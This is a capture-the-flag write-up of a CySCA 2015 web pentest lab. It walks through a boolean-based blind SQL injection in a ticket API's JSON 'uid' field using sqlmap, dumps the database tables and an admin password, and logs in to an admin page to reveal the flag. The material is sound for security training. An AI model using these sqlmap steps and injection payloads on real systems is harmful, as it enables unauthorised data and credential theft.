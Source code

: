 ```yaml
---
title: CySCA 2015 - Web Application Pentest 5 - Turn it On & Off Again
author: nickw
layout: post

categories:
  - Blog
  - Security
---
```


<div style="font-size:0.7em"><i>Note: If you're interested in actually doing these challenges, <a href="/post/2015/cysca-web-pentest/">check out this post</a> on 
how to get the environment set up.</i>
</div>

* * *

As an executive, we notice we've got some additional functionality. We notice 
another menu item "IT Support" and the "Executive Board" option on the home
page. 

Since the challenge is called "Turn it on and off", we will have a poke around 
the IT support section.

The IT Section appears to be an area which allows users to submit IT Tickets. We
notice that it makes API requests to another server, namely `support.ecwi.cysca`.

Loading the list of tickets, we notice a POST request to 
`http://support.ecwi.cysca/ticket/get`, with the payload: 
`{uid: "5", secret: "4Da20BBfG19362c1b4ad6dea4A3aE9G3"}`.  The returned 
data is just a JSON list of tickets. 

Since we haven't had an SQL challenge yet, we pull out SQLMap and try to 
see what we can find. 

We copy the request from burp and save it into a file called tickets.txt:

{% highlight text %}
POST /ticket/get HTTP/1.1
Host: support.ecwi.cysca
Proxy-Connection: keep-alive
Content-Length: 55
Accept: application/json, text/javascript, */*; q=0.01
Origin: http://10.0.0.2
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_10_5) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/46.0.2490.86 Safari/537.36
Content-Type: application/json; charset=UTF-8
Referer: http://10.0.0.2/service/tickets
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.8

{"uid":"5","secret":"4Da20BBfG19362c1b4ad6dea4A3aE9G3"}
{% endhighlight %}


Lets run sqlmap using that request. `sqlmap -r tickets.txt`. When burp asks 
"JSON data found in POST data. Do you want to process it? [Y/n/q]", we answer 
with "y"

{% highlight text %}
[18:12:04] [WARNING] (custom) POST parameter 'JSON uid' does not appear dynamic
[18:12:04] [CRITICAL] not authorized, try to provide right HTTP authentication type and valid credentials (401)
[18:12:04] [WARNING] HTTP error codes detected during run:
401 (Unauthorized) - 2 times
{% endhighlight %}


Hmm, 401 errors. That's okay. We do some googling, and find that sqlmap actually
has an option to ignore 401 errors (provided you're running the latest version 
- 1.0-dev-69bc875). We run again, this time using 
`sqlmap -r tickets.txt --ignore-401`

{% highlight text %}
[18:12:39] [WARNING] (custom) POST parameter 'JSON secret' is not injectable
{% endhighlight %}

Still no dice. Let's increase the level: `sqlmap -r tickets.txt  --ignore-401 --level=3`.
That did the job:

{% highlight text %}
sqlmap identified the following injection point(s) with a total of 187 HTTP(s) requests:
---
Parameter: JSON uid ((custom) POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: {"uid":"5" AND 6601=6601 AND "rgyW"="rgyW","secret":"4Da20BBfG19362c1b4ad6dea4A3aE9G3"}
---
{% endhighlight %}

Awesome. Let's get some data out of this database. We use multiple threads to 
speed up the collection, since this is a blind injection. Additionally, it looks 
**totally badass**.
`sqlmap.py -r tickets.txt  --ignore-401 --level=3 --tables --threads=10`:

{% highlight text %}
[5 tables]
+----------------+
| ecwidb_replies |
| ecwidb_tickets |
| ecwidb_tokens  |
| ecwidb_users   |
| ticket_replies |
+----------------+
{% endhighlight %}

Users looks like a place we should look. Lets take a look in there: 
`sqlmap.py -r tickets.txt  --ignore-401 --level=3 --dump -T ecwidb_users --threads=10`

{% highlight text %}
Table: ecwidb_users
[1 entry]
+---------+-----------+-----------+
| tid     | tusername | tpassword |
+---------+-----------+-----------+
| <blank> | <blank>   | <blank>   |
+---------+-----------+-----------+
{% endhighlight %}

Weird. We google the issue with returning blank results, and find 
[issue 861](https://github.com/sqlmapproject/sqlmap/issues/861). We re-run using
the suggestion of `--time-sec=20`. `sqlmap.py -r tickets.txt  --ignore-401 --level=3 --dump -T ecwidb_users --threads=2 --time-sec=20`.

{% highlight text %}
Table: ecwidb_users
[1 entry]
+----+----------+--------------------+
| id | username | password           |
+----+----------+--------------------+
| 1  | admin    | #d0ntev3nTryn00bz! |
+----+----------+--------------------+
{% endhighlight %}

We've now got the password to the IT support system, however, we don't know 
where to put it. We're going to need to hunt for a login page.

Navigating to `http://support.ecwi.cysca/` gies us a 404 page, so does 
`http://support.ecwi.cysca/login`. Maybe if we try 
`http://support.ecwi.cysca/admin/`. Interesting. We get a Flask/WSGI looking
"Unauthorized" message. Since we know this is some sort of working endpoint, 
we browse to `http://support.ecwi.cysca/admin/login`. Out pops a login page.

We log in, revealing the flag:

> FLAG{4a000000000000000000000000000000}

